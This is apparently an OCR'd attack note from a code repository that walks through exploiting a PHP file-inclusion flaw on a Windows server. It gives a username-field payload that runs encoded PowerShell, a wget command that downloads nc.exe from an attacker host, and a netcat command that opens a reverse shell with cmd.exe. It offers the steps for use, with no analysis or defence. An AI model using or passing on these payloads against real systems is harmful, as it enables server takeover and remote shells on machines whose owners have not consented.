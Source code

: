 ### REQUIREMENTS: Confirm that the server is vulnerable to Remote File Inclusion/Local File Inclusion

### LOCATION: /windows/temp/sess_PHPSESSIONID

### STEPS:

#### 1) Create a new user in the app inserting our encoded payload as the username value:

#### echo "wget http://ATTACK_IP/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t UTF-16LE | base64

#### 2) The final username value payload becomes: <?=`powershell /enc ENCODED_PAYLOAD`?<

#### 3) Abuse the LFI/RFI vulnerability to make the command execute on the server.

#### 4) Create another user with: echo "C:\Windows\TEMP\nc.exe -e cmd.exe IP_ADDRESS PORT" | iconv -t UTF-16LE | base64"

#### 5) Repeat steps to get your reverse shell.

### Similar approach can be used on a linux machine as well


